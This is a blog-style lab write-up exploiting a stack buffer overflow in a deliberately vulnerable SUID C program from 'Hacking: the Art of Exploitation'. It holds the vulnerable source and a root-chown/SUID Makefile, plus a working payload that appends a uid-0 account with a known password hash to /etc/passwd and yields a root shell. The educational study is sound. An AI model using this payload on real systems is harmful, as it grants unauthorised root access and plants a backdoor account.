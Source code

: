 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (1)
comments: true
---
```


Recently I've been revising the concept of buffer overflow and its exploitation, so I will post a sequence of articles on this topic with varying settings. In this article, let's exploit a simple SUID-ed program with a stack-based BOF to add a new root-priviledged user with a chosen password. This example is referenced from the book [Hacking: the Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441/ref=sr_1_sc_1?ie=UTF8&qid=1446946770&sr=8-1-spell&keywords=hacking+the+art+of+exploitaitn).  

------------------


```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  uname -a
Linux sirius 3.13.0-63-generic #103-Ubuntu SMP Fri Aug 14 21:42:59 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  gcc --version 
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

I'm using x86_64, but I will compile the program in 32bit mode.  

```C
#include    <stdio.h>
#include	<stdlib.h>
#include	<string.h>
#include	<fcntl.h>
#include	<unistd.h>

struct data {
	char buffer[100];
	char datafile[20];
};

int main (int argc, char **argv){
	struct data data;

	strcpy(data.datafile, "/var/notes");

	if (argc < 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}

	strcpy(data.buffer, argv[1]);

	printf("[DEBUG] data.buffer @ %p: \'%s\'\n", data.buffer, data.buffer);
	printf("[DEBUG] data.datafile @ %p: \'%s\'\n", data.datafile, data.datafile);

	int fd;
	fd = open(data.datafile, O_WRONLY| O_APPEND);
	printf("[DEBUG] fd @ %p: %d\n", &fd, fd);

	if (write(fd, data.buffer, strlen(data.buffer)) == -1) {
		fprintf(stderr, "in main() - no write\n");
		exit(1);
	}
	if (close(fd) == -1) {
		fprintf(stderr, "in main() - no close\n");
		exit(1);
	}
		return 0;
}
```

The program shown above simply appends `buffer` to the file `/var/notes`. When strcpy is called to copy `argv[1]` to `buffer`, it can cause a buffer overflow --- when more than 100 characters are stored in `argv[0]`, then the remaining string would be overflowed. The Makefile shown below is used to compile and chown/chmod the program.  

```
CC=gcc
CFLAGS=-m32 -std=c99 -Wall

all: pass_change

pass_change: pass_change.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

pass_change.o: pass_change.c

clean:
	rm pass_change.o pass_change
```


When `argv[1]` is not over 100 characters, it works perfectly.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  sudo touch /var/notes
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change AAAA                      
[DEBUG] data.buffer @ 0xffce9dd4: 'AAAA'
[DEBUG] data.datafile @ 0xffce9e38: '/var/notes'
[DEBUG] fd @ 0xffce9dd0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /var/notes 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  python -c "print 0xffce9e38-0xffce9dd4"
100
```

Since the offset between buffer and datafile is 100 (same as the size of buffer), the overflowed strings of argv[1] will be overwritten to `datafile`.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "A"x120')
[DEBUG] data.buffer @ 0xffed7924: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] data.datafile @ 0xffed7988: 'AAAAAAAAAAAAAAAAAAAA'
[DEBUG] fd @ 0xffed7920: -1
in main() - no write
```

By exploiting this BOF, let's create a new user with a chosen password by appending to `/etc/passwd` file. Following the format of `/etc/passwd` in UNIX system, I will add username `myroot` with password `password` --- `myroot:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash`. As shown below, `password` is encrypted using Crypto() OpenSSL cryptographic library with a salt "AA". Note that the 3rd & 4th entry (i.e. "0:0") indicates root privilege. If you want to know the format of /etc/passwd more in detail, refer to a link [here](http://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e "print crypt('password', 'AA')"         
AA6tQYSfGxd/A
```

The content of datafile needs to be `/etc/passwd`, but the last entry in /etc/passwd needs to specify the user's default shell. So, let's create a symbolic link with the name `/tmp/etc/passwd` pointing to `/bin/bash`. Then, adjust the length of the user ID info (comment section), so that the location of `/etc/passwd` would be at 100.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ln -s /bin/bash /tmp/etc/passwd  
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp"' | wc -c
100
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"'
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
```

Good. And here it is, you get the root shell.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"') 
[DEBUG] data.buffer @ 0xff8541b4: 'myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] data.datafile @ 0xff854218: '/etc/passwd'
[DEBUG] fd @ 0xff8541b0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /etc/passwd | grep myroot
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  su myroot
Password: 
root@sirius:/home/taishi/blackhat_python/bof_lab# whoami
root
```
